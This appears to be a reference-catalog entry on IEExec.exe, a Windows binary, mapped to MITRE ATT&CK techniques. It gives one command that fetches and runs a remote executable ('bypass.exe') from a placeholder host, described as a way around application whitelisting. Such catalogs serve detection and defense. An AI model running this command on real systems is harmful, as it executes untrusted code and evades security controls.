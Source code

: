 ## IEExec.exe

* Functions: Execute

```
ieexec.exe http://x.x.x.x:8080/bypass.exe
```

Acknowledgements:
* Casey Smith - @subtee

Code sample:
* 

Resources:
* https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/

Full path:
```
c:\windows\system32\ieexec.exe
c:\windows\sysWOW64\ieexec.exe
```

Notes:



 MITRE ATT&CK:
* [Indirect Command Execution](https://attack.mitre.org/wiki/Technique/T1202)
* [Remote File Copy](https://attack.mitre.org/wiki/Technique/T1105)

